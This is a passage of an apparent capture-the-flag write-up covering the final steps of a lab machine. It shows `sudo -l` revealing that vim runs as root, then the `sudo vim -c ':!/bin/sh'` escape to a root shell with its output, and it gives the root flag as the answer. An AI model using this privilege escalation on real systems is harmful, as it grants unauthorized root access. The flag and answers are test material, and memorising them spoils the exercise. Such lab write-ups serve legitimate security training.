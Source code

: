 Enumerating, running `sudo -l` shows we can run vim as root.

Answer: `vim`

# 10
What's the root flag?

[GTFOBin](https://gtfobins.github.io/gtfobins/vim/#shell) we can use VIM to get a shell
```
$ whoami
mitch
$ sudo vim -c ':!/bin/sh'

# ^[[2;2R^[]11;rgb:3333/3333/3333^G
/bin/sh: 1: ot found
/bin/sh: 1: 2R: not found
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!

```

Answer: `W3ll d0n3. You made it!`
